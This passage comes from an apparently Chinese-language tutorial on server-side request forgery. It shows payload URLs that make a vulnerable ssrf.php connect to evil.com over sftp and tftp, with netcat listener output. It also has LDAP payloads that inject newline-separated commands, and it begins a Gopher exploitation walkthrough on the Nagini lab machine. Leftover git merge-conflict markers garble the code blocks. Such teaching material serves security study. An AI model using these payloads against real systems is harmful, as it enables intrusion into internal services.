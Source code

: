<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
http://example.com/ssrf.php?url=sftp://evil.com:1337/

evil.com:$ nc -lvp 1337
Connection from [192.168.0.12] port 1337 [tcp/*] accepted (family 2, sport 37146)
SSH-2.0-libssh2_1.4.2
```

**ldap 协议**  
LDAP 代表轻量级目录访问协议，它是一种通过 IP 网络管理和访问分布式目录信息服务的应用协议

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
http://example.com/ssrf.php?url=ldap://localhost:1337/%0astats%0aquit
http://example.com/ssrf.php?url=ldaps://localhost:1337/%0astats%0aquit
http://example.com/ssrf.php?url=ldapi://localhost:1337/%0astats%0aquit
```

**tftp 协议**  
tftp://- 简单文件传输协议是一种简单的锁步文件传输协议，它允许客户端从远程主机获取文件或将文件放到远程主机上

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
http://example.com/ssrf.php?url=tftp://evil.com:1337/TESTUDPPACKET

evil.com:# nc -lnvp 1337
Listening on [0.0.0.0] (family 0, port 1337)
TESTUDPPACKEToctettsize0blksize512timeout3
```

## Gopher 利用

### 协议介绍

Gopher 协议是一种早期的互联网协议，于 1991 年诞生，它的设计目标是提供一种简单、易用的方式来浏览和检索互联网上的文档，Gopher 协议在 Web 出现之前很流行并且在一段时间内是互联网上最主要的信息浏览方式之一，Gopher 协议的特点是其简洁性和层次结构，它使用类似于文件系统的层次结构来组织文档和资源，每个 Gopher 服务器都可以提供一个层次结构的目录，其中包含文档、文件和其他资源，用户可以使用 Gopher 客户端连接到服务器并通过浏览目录来查找和选择感兴趣的内容，目录中的每个项都可以是一个文档、一个文件、一个子目录或者一个特定的 Gopher 服务，随着 Web 的迅速发展，HTTP 协议取代了 Gopher 协议成为互联网上主流的协议，因为它提供了更丰富的功能和更广泛的应用支持，Gopher 协议逐渐衰落，但仍有一些人继续使用它来保护和维护早期互联网文化，此外一些 Gopher 服务器仍然存在，供人们回顾和体验互联网的早期阶段，同时 Gopher 协议也可以用于 SSRF 中实施攻击操作

### 协议利用

这里我们以 Nagini 靶机中的 SSRF 为例对 Gopher 协议的利用进行演示：

首先我们在打靶的过程中发现存在一处 SSRF 风险，可以使用伪协议进行文件的读取操作：
